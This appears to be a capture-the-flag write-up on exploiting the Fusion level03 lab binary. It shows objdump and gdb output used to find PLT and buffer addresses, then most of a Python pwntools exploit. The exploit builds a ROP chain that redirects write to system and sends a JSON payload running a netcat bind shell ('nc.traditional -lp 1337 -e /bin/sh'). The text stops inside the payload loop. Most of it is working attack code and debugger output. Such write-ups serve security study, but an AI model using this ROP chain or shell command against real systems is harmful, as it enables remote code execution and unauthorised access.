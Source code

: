To find the address of **exit** and **write** in the PLT, this command has been used:
```shell
objdump -d /opt/fusion/bin/level03 | grep "<exit@plt>"
```

Also, to find where the data in gContents is stored:
```shell
(gdb) b system
Breakpoint 1 at 0xb7ce5b20: file ../sysdeps/posix/system.c, line 179.
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/fusion/bin/level03
[New process 2527]
[New process 2531]
[Switching to process 2531]

Breakpoint 1, __libc_system (line=0x804d058 'A' <repeats 200 times>...)
    at ../sysdeps/posix/system.c:179
179	../sysdeps/posix/system.c: No such file or directory.
	in ../sysdeps/posix/system.c
(gdb) p gContents
$1 = (unsigned char *) 0x804d058 'A' <repeats 200 times>...
```

We can now write every command we want in the gContents variable, so in the "contents" json value. We will start a listening shell with netcat:
```shell
/bin/nc.traditional -lp 1337 -e /bin/sh
```

The final exploit is:
{% highlight python linenos %}
#!/usr/bin/python2
import hmac
from hashlib import sha1
from pwn import *
import json, random, string

#Connection to the host
c = remote('192.168.56.101',20003)

#Get token
token = c.recvline().split('"')[1]
log.info("Token: " + token)

rop=""
rop += p32(0x08048bf0) # pop ebx, ret
rop += p32(0xaaa9b858) # 0x0804bd1c - 0x5d5b04c4
rop += p32(0x08049b4f) # pop eax ; add esp, 0x5c ; ret
rop += p32(0xfff7b860)
rop += 'A'*0x5c        # because of add esp, 0x5c
rop += p32(0x080493fe) # add dword ptr [ebx + 0x5d5b04c4], eax ; ret
rop += p32(0x08048d40) # write PLT
rop += p32(0x08048f80) # exit PLT => objdump -d /opt/fusion/bin/level03 | grep "<exit@plt>"
#rop += p32(0x0804bdf4) # gContents => objdump -t /opt/fusion/bin/level03
rop += p32(0x0804d058) # [gContents]

#In case gContents address change, we add a lot of /
contents = '/'*400 + 'bin/nc.traditional -lp 1337 -e /bin/sh'

#Generate a request that have the first 2 bytes equal 0.
while(True):

    title = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(100)])
    msg = json.dumps({"tags":("A"), "title":title+'A'*27+'\\u1111'+'A'*31 + rop, "contents":contents,
                        "serverip":"192.168.56.1:80"}, ensure_ascii=False)

    payload = token + "\n" + msg
